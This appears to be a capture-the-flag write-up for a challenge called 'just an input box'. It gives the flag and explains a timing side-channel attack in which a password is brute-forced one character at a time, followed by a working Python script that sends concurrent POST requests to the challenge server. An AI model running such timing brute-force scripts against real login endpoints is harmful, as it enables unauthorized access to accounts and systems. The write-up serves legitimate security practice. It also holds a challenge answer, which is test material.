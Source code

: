 # just an input box
why is there just an input box...
139.59.46.128:2345

## Flag 
enc0re{5hm0ll_fl4g}

## Solution
1. you have to bruteforce the input field in the website
2. character by character bruteforce has to be done not word
3. You will notice that one character takes a lot of time to load as compared to other character, this means that character is correct.
4. You can make a script or do this manually by trying all characters and specials chars.

Script:

```python
from __future__ import print_function

from requests_futures.sessions import FuturesSession
import string
import sys

server = "http://139.59.46.128:2345/"

flag = "enc0re{"

if sys.stdout.isatty():
    print(flag, end="\r")
    sys.stdout.flush()

with FuturesSession(max_workers=len(string.printable)) as session:
    while not flag.endswith("}"):
        futures = [session.post(server, data={"password": flag + char}) for char in string.printable]

        flag += max(zip((future.result().elapsed for future in futures), string.printable))[1]

        if sys.stdout.isatty():
            print(flag, end="\r")
            sys.stdout.flush()

print(flag)
```
